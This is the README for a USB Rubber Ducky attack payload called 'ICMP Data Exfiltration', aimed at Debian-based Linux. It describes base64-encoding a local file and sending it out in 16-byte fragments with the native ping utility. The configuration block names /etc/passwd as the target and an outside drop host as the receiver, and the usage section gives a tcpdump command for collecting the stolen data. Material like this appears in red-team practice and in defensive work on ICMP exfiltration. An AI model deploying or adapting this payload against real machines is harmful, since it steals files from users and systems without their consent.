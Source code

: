 # ICMP Data Exfiltration

- Title:         ICMP Data Exfiltration
- Author:        TW-D
- Version:       1.0
- Targets:       Debian-Based Linux Distributions
- Category:      Exfiltration

## Description

Exfiltrates a local file from a target machine using the native "ping" utility.
The file is first converted to "Base64", then divided into 16-byte fragments.
The "ping" utility is then used to transmit the data to a receiving host.

__Note :__ *The "base64" and "ping" utilities are required.*

## Configuration

In the "payload.txt" file, replace the values of the following constants :

```

REM ---
REM USB Rubber Ducky label.
REM ---
DEFINE #RD_LABEL DUCKY

REM ---
REM Absolute path of the file to be exfiltrated.
REM ---
DEFINE #TARGET_FILE /etc/passwd

REM ---
REM IP address or domain receiving ICMP packets.
REM ---
DEFINE #DROP_HOST www.example.com

```

## Usage

I) At the root of the USB Rubber Ducky, copy the "payload.sh" file.

II) To receive data, you can use :

```
tcpdump -A --interface="<INTERFACE>" -l -n -q --snapshot-length=0 -t "icmp[icmptype] == 8"
```

> OR

https://github.com/TW-D/tcpdump_ICMP-Data-Exfiltration/blob/main/tcpdump_icmp-data-exfiltration.rb
